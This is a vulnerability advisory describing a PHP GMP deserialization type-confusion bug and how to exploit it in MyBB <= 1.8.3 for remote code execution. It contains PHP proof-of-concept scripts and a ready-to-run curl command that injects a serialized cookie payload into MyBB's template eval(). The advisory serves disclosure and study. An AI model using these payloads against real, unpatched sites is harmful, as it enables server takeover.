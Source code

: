 #GMP Deserialization Type Confusion Vulnerability [MyBB <= 1.8.3 RCE Vulnerability]

Taoguang Chen <[@chtg57](https://twitter.com/chtg57)> - Write Date: 2015.4.28 - Release Date: 2017.1.20

> A type-confusion vulnerability was discovered in GMP deserialization with crafted object's __wakeup() magic method that can be abused for updating any already assigned properties of any already created objects, this result in serious security issues.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.30

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
gmp.c
```
static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
{
	...
	ALLOC_INIT_ZVAL(zv_ptr);
	if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
		|| Z_TYPE_P(zv_ptr) != IS_ARRAY
	) {
		zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
		goto exit;
	}

	if (zend_hash_num_elements(Z_ARRVAL_P(zv_ptr)) != 0) {
		zend_hash_copy(
			zend_std_get_properties(*object TSRMLS_CC), Z_ARRVAL_P(zv_ptr),
			(copy_ctor_func_t) zval_add_ref, NULL, sizeof(zval *)
		);
	}
```

zend_object_handlers.c
```
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
	zend_object *zobj;
	zobj = Z_OBJ_P(object);
	if (!zobj->properties) {
		rebuild_object_properties(zobj);
	}
	return zobj->properties;
}
```

It has been demonstrated many times before that __wakeup() or other magic methods leads to `ZVAL` was changed from the memory in during deserializtion. So an attacker can change `**object` into an integer-type or bool-type `ZVAL`, then the attacker will be able to access any objects that stored in objects store via `Z_OBJ_P`. This means the attacker will be able to update any properties in the object via zend_hash_copy(). It is possible to lead to various problems and including security issues.

The following codes will prove this vulnerability:
```
<?php

class obj
{
	var $ryat;

	function __wakeup()
	{
		$this->ryat = 1;
	}
}

$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);
var_dump($obj);

?>
```

Expected result:
```
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
}
```

Actual result:
```
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
}
```

**i) How to exploited this bug in real world?**

When PHP 5.6 <= 5.6.11, DateInterval's __wakeup() use convert_to_long() handles and reassignments its properties (it has been demonstrated many times), so an attacker can convert GMP object to an any integer-type `ZVAL` via GMP's gmp_cast_object():

```
static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
{
    mpz_ptr gmpnum;
    switch (type) {
    ...
    case IS_LONG:
        gmpnum = GET_GMP_FROM_ZVAL(readobj);
        INIT_PZVAL(writeobj);
        ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
        return SUCCESS;
```

The following codes will prove this exploite way:
```
<?php

var_dump(unserialize('a:2:{i:0;C:3:"GMP":17:{s:4:"1234";a:0:{}}i:1;O:12:"DateInterval":1:{s:1:"y";R:2;}}'));

?>
```
Of course, a crafted __wakeup() can also be exploited, ex:

```
<?php

function __wakeup()
{
    $this->ryat = (int) $this->ryat;
}

?>
```

**ii) Can be exploited this bug in real app?**

Exploited the bug in MyBB:

index.php
```
	if(isset($mybb->cookies['mybb']['forumread']))
	{
		$forumsread = my_unserialize($mybb->cookies['mybb']['forumread']);
	}
```

MyBB <= 1.8.3 allow deserialized cookies via unserialize(), so an attacker will be able to update `$mybb` or other object's any properties, and it is possible to lead to security issues easily, ex: xss, sql injection, remote code execution and etc. :-)

**P.S. I had reported this vulnerability and it had been fixed in mybb >= 1.8.4.**

Proof of Concept Exploit
------------
**MyBB <= 1.8.3 RCE vulnerability**

index.php
```
eval('$index = "'.$templates->get('index').'";');
```

MyBB always use eval() function in during template parsing.

inc/class_templates.php
```
class templates
{
	...
	public $cache = array();
	...
	function get($title, $eslashes=1, $htmlcomments=1)
	{
		global $db, $theme, $mybb;
		...
		$template = $this->cache[$title];
		...
		return $template;
	}
```

If we can control the `$cache`, we will be albe to inject PHP code via eval() function.

inc/init.php
```
$error_handler = new errorHandler();
...
$maintimer = new timer();
...
$mybb = new MyBB;
...
switch($config['database']['type'])
{
	case "sqlite":
		$db = new DB_SQLite;
		break;
	case "pgsql":
		$db = new DB_PgSQL;
		break;
	case "mysqli":
		$db = new DB_MySQLi;
		break;
	default:
		$db = new DB_MySQL;
}
...
$templates = new templates;
```

The `$templates` object was instantiated in init.php, and four objects was instantiated in this before. This means the `$templates` object's handle was set to `5` and stored into objects store, so we can access the `$templates` object and update the `$cache` property via convert GMP object into integer-type `ZVAL` that value is `5` in during GMP deserialization. This also means we can inject PHP code via eval() function.

When MyBB <= 1.8.3 and PHP 5.6 <= 5.6.11, remote code execution by just using curl on the command line:
```
curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://127.0.0.1/mybb/
```